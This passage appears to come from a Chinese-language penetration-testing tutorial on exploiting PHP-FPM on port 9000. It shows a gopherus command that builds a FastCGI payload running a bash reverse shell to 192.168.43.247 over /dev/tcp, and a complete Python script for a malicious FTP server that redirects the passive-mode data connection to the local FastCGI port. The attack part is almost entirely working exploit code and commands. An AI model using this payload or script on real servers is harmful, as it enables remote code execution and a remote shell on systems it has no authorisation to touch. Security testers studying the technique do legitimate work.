 经测试目标主机的 9000 端口上存在 PHP-FPM，那我们便可以利用与刚才相似的原理，通过搭建恶意的 ftp 服务器来攻击 PHP-FPM。

首先还是使用 gopherus 生成 payload：

```plain
python gopherus.py --exploit fastcgi
/var/www/html/index.php  # 这里输入的是目标主机上一个已知存在的 php 文件
bash -c "bash -i >& /dev/tcp/192.168.43.247/2333 0>&1"  # 这里输入的是要执行的命令
```

[![](assets/1698897074-24dd0b4bc43231ead75054833d890ca7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-91ebb1a0-b2e5-1.png)

得到的 payload 只截取 `_` 后面的数据部分。

然后再攻击机上执行以下 python 脚本搭建一个恶意的 ftp 服务器：

```plain
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```